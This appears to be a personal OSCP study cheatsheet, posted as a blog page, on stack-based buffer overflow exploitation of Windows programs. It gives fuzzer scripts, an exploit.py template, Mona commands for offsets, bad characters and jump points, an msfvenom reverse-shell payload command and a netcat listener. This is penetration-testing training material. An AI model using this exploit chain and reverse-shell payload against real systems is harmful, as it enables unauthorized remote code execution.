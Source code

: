 ```yaml
---
layout: post
title: Buffer Overflow personal cheatsheet
tags: [OSCP, Buffer Overflow, Cheatsheet]
description: "Buffer Overflow personal cheatsheet"

---
```


- [Check Windows PE protections](#check-windows-pe-protections)
  * [Winchecksec](#winchecksec)
    + [Compiling on Windows](#compiling-on-windows)
    + [Download last release](#download-last-release)
    + [Usage](#usage)
- [Tools](#tools)
  * [Immunity Debugger](#immunity-debugger)
  * [Mona](#mona)
    + [Mona installation](#mona-installation)
- [Buffer OverFlow](#buffer-overflow)
  * [Mona Configuration](#mona-configuration)
  * [Fuzzing](#fuzzing)
  * [Crash Replication & Controlling EIP](#crash-replication---controlling-eip)
    + [Pattern](#pattern)
  * [Finding Bad Characters](#finding-bad-characters)
  * [Finding a Jump Point](#finding-a-jump-point)
  * [Generate Payload](#generate-payload)
  * [Prepend NOPs](#prepend-nops)
  * [Start nc listerner](#start-nc-listerner)

------

## Check Windows PE protections 

### Winchecksec

```
https://github.com/trailofbits/winchecksec
```

#### Compiling on Windows

```
git clone https://github.com/trailofbits/winchecksec.git
cd winchecksec
mkdir build
cd build
cmake ..
cmake --build . --config Release
```

#### Download last release

```
https://github.com/trailofbits/winchecksec/releases
```

#### Usage

```
.\Release\winchecksec.exe <PATH>.exe
```

------

## Tools

### Immunity Debugger

```
https://debugger.immunityinc.com/
```

### Mona

```
https://github.com/corelan/mona
```

#### Mona installation

```
Drop mona.py into the 'PyCommands' folder (C:\Program Files (x86)\Immunity Inc\Immunity Debugger\PyCommands\)
Install Python 2.7.14 or higher
```

------

## Buffer OverFlow

Launch Immunity Debugger, then "Open" or "Attach" the .exe file.

### Mona Configuration 

```
# Set the working directory
!mona config -set workingfolder c:\mona\%p
```

### Fuzzing 

Use fuzzer.py or fuzzer2.py, until the application crash inside Immunity Debugger.

```
# fuzzer.py

import socket, time, sys

ip = "<IP>"
port = <PORT>
timeout = 5

buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100

for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((ip, port))
        s.recv(1024)
        print("Fuzzing with %s bytes" % len(string))
        s.send(string)
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
    time.sleep(1)
```

```
# fuzzer2.py

import socket

target_ip = "<IP>"
target_port = <PORT>

payload = 1000 * "A"

try: 
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((target_ip,target_port))
    s.send(payload)
    print "[+] " + str(len(payload)) + " Bytes Sent"
except:
    print "[-] Crashed"
```

When the application crashes, EIP should be equal to 41414141 (hex value of "AAAA").

### Crash Replication & Controlling EIP

#### Pattern

Generate a cyclic pattern to find the exact offset of the crash :

```
# Mona
!mona pc <SIZE>

# Metasploit
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <SIZE>
```

The size must be higher than the crash offset, now modify the "payload "variable by the cyclic pattern :

```
# exploit.py

import socket

ip = "<IP>"
port = <PORT>

prefix = ""
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + "\r\n")
    print("Done!")
except:
    print("Could not connect.")
```

Re-run the exploit, the application should crash. To find the exact offset of the crash use :

```
!mona findmsp -distance <SIZE>
```

Size is the same as the one used to create the pattern. The result should be something like :

```
EIP contains normal pattern : ... (offset XXXX)
```

Get the offset, modify :

- The "offset" variable in exploit.py 
- The "retn" variable by "BBBB"
- Remove the "payload" variable

```
offset = <OFFSET>
overflow = "A" * offset
retn = "BBBB"
payload = ""
```

Re-run exploit.py, EIP should be equal to 42424242 (hex value of "BBBB"). You know control EIP !

### Finding Bad Characters

- !mona bytearray -b "\x00" -> copy results to payload variable
- Re-run exploit.py
- !mona compare -f C:\mona\oscp\bytearray.bin -a ESP_ADDRESS -> copy bad chars
- !mona bytearray -b "\x00 + BAD_CHARS" -> copy results to payload variable
- !mona compare -f C:\mona\oscp\bytearray.bin -a ESP_ADDRESS -> Repeat the badchar comparison until the results status returns "Unmodified". This indicates that no more badchars exist.

### Finding a Jump Point 

```
!mona jmp -r esp -cpb "BAD_CHARS"
Choose an address and update exploit.py, setting the "retn" variable to the address, written backwards
```

or

```
!mona modules
!mona find -s "\xff\xe4" -m DLL
```

### Generate Payload 

msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT EXITFUNC=thread -b "BAD_CHARS" -f py -> Copy the generated shell code setting the payload variable

### Prepend NOPs 

padding = "\x90" * 16

### Start nc listerner 

nc -lvp "PORT"

